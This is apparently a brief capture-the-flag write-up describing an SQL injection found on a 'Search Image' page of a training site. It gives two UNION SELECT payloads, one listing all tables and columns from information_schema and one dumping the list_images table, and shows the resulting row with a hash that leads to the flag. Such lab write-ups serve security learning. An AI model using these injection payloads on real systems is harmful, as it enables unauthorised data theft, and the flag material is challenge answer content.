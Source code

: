 # How I found it

There is Injection sql In Search Image page so i use this query to get all tables

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

i found a table call list_images i get all informations in this table and i found the flag in the id : 5 by

`1 UNION SELECT id, comment FROM list_images`

### Result

ID: 1 UNION SELECT id, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
